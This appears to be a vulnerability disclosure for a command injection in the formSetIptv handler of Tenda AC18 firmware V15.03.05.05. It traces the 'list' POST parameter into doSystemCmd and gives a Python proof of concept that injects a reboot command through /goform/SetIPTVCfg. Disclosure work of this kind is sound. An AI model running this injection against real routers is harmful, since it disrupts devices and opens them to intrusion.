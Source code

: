 ## Overview

- The device's official website: https://www.tenda.com.cn/product/overview/AC18.html

- Firmware download website: https://www.tenda.com.cn/download/detail-2610.html

## Affected version

V15.03.05.05

## Vulnerability details

The Tenda AC18 V15.03.05.05 firmware has a command injection vulnerability in the `formSetIptv` function. The `Var` variable receives the `list` parameter from a POST request and is later passed to the `sub_B0060` function. 

![image-20250602235312844](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20250602235312844.png)

![image-20250602235615835](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20250602235615835.png)

In function `sub_B0060`, the variable `a1` is directly assigned to `system` by `doSystemCmd` However, since the Since user can control the input of  `list`, the statemeant `doSystemCmd("nvram set adv.iptv.stballvlans=\"%s\"", a1);` can cause a command injection.

![image-20250602235634299](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20250602235634299.png)

## POC

```python
import requests

ip = "192.168.1.1"

url = f'http://{ip}/goform/SetIPTVCfg'
payload = '；reboot'

data = {"list": payload}

requests.post(url, data=data)
```

![image-20250602235743229](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20250602235743229.png)
